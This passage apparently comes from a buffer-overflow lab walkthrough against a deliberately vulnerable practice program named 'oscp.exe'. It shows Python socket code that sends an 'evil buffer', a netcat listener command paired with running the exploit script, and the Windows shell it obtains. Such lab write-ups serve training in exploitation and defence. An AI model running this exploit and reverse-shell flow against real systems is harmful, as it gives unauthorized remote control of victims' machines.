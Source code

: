 ```python3
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

And after re-opening and re-running `oscp.exe`, start a `netcat` listener on host machine and run the exploit:

```
nc -lvnp 9822
python3 attack.py
```

And we get the shell:

```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop\vulnerable-apps\oscp>
```
